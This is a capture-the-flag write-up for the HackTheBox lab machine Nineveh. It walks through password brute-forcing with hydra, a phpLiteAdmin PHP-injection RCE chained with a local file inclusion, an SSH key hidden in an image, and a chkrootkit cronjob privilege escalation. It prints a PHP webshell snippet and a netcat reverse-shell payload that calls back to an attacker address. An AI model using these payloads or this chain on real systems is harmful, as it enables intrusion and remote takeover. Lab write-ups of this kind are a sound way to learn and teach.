 ```yaml
---
layout: post
title: HackTheBox&#58; Nineveh
description: Writeup for HTB box Nineveh.
category: HackTheBox
---
```


### Introduction

Nineveh is a Linux box, difficulty Medium on HTB.

The box is quite tricky and twisted but more focused on CVE instead of handcrafted exploit.
Initial foothold started by brute forcing to access 2 different services on port 80 and 443.
We need to find vulnerability in each service and chain them together to gain a shell as www-data.
To get user shell, we need to find ssh private key hidden inside a picture and login.
Root part is much easier by detecting and injecting a root cronjob.

### Initial Scan

![Nineveh-1](/resources/Nineveh-1.png)

### Initial Foothold: Weak Credentials

Checking both services running on port 80 (HTTP) and port 443 (HTTPS), we see nothing important.
Using `gobuster` with dirbuster medium wordlist, we find some hits in the 2 services.
![Nineveh-2](/resources/Nineveh-2.png)

We get 1 login prompt in `/department` on port 80 and phpLiteAdmin running on port 443.
In addition to that, we find a picture `nineveh.png` (and nothing else) in `/secure_notes`.

For the 2 login pages, we can try to perform SQL Injection.
However it does not seem to work with either.
Also some weak credentials such as admin:admin or admin:password does not work.

We will use `hydra` with rockyou.txt to check if it can brute force the password.
And we get hits in both pages, `admin:1q2w3e4r5t` for `/department` and `password123` for `/db`.
![Nineveh-3](/resources/Nineveh-3.png)

### User: Chaining LFI to get RCE

First we look at `/db` on port 443 to see if there is something inside the database.
Unfortunately there is no databases presented.
![Nineveh-4](/resources/Nineveh-4.png)

Further testing shows that we couldn't perform I/O operations such as LOAD\_FILE or INTO\_OUTFILE either.
However searching for phpLiteAdmin version 1.9 on ExploitDB gives us 1 potential hit: [RCE - 24044](https://www.exploit-db.com/exploits/24044)

Basically the database created is not padded with extension such as .sqlite or .mysql, so we can create a database file with `.php` extension.
Then by adding fields with malicious PHP payload as default value, such as
```php
<?php echo "Pwned" ?>
```
we have successfully create a PHP shell.

However the exploit says that the new database file created would be on the same directory with phpLiteAdmin (which is `/db`).
Unfortunately it is not the case here, the path to the database is at `/var/tmp/<Database>`.
We also couldn't rename the file into folder such as `/var/html/www/` or `/var/html/ssl/`.

Despite not being able to access the shell created, we still could find a LFI vulnerability which would trigger the shell.

Now we look at `/department` on port 80.
We can easily find a link to see the note at
```text
http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt
```
The `notes` parameter highly suggests a LFI vulnerability here, however testing it with files such as `../../../../../../etc/passwd` doesn't seem to work ("No Note is selected").
However, if we change the parameter into `ninevehNotes.txt.php` we get a warning instead.
```text
Warning:  include(files/ninevehNotes.txt.php): failed to open stream: No such file or directory in /var/www/html/department/manage.php on line 31

Warning:  include(): Failed opening 'files/ninevehNotes.txt.php' for inclusion (include_path='.:/usr/share/php') in /var/www/html/department/manage.php on line 31
```
From here we guess that there are mechanisms that check the filename to contain a certain string (`ninevehNotes.txt` for example) before the actual PHP include call that might lead to LFI.
<br/>

Now we can see the link between 2 potential vulnerabilities from 2 platform. We can use phpLiteAdmin to drop the shell with a shell named `ninevehNotes.txt.php` and call it with the LFI in the department.
![Nineveh-5](/resources/Nineveh-5.png)

Sure enough we get a RCE and can change the payload into a reverse shell (we can easily check that `nc` is installed).
```text
<?php exec("rm -f /tmp/k4; mkfifo /tmp/k4; cat /tmp/k4|/bin/sh -i 2>&1|nc 10.10.14.25 1337 >/tmp/k4") ?>
```

We have a shell running as www-data.
However we couldn't read user.txt yet.
Checking listening ports and current running processes, we see that there is indeed ssh running, but only listening on localhost, and user amrois has authorized\_keys.
![Nineveh-6](/resources/Nineveh-6.png)

There is 1 thing we haven't enumerate yet, that is the picture `nineveh.png` inside `/secure_notes`, which from the name should suggest there are things hidden inside. Also the picture is about 3MB, much larger than normal pictures.
Using `binwalk` we find a hidden tar archive file inside, which extracted into a folder `/secret`, containing `nineveh.priv` and `nineveh.pub`, the private and public RSA key of amrois.
![Nineveh-7](/resources/Nineveh-7.png)

We now can copy the private key and ssh to localhost as amrois to read user.txt.
```bash
ssh -i /tmp/amrois_key amrois@localhost
```

### Privesc: Root chkrootkit Cronjob

Fortunately root is much simpler than user.
Using [pspy](https://github.com/DominicBreuker/pspy) to monitor, we can detect a root cronjob.
```bash
/bin/sh -c /root/vulnScan.sh
/bin/sh /usr/bin/chkrootkit
```
![Nineveh-8](/resources/Nineveh-8.png)

This suggests that [chkrootkit](http://www.chkrootkit.org/) is running.
Searching on ExploitDB gives us 1 exploit with detail instruction: [Privesc - 33899](https://www.exploit-db.com/exploits/33899).

Basically chkrootkit is a program checking the signature and detect common rootkits.
There is 1 programming error while checking for Slapper Worm that would execute a file such as `/tmp/update` in certain condition (no `file_port`).
With this in mind we just need to create an executable script `/tmp/update` with reverse shell payload and wait for the cronjob to trigger.
We get a root shell and we can read root.txt.
![Nineveh-9](/resources/Nineveh-9.png)
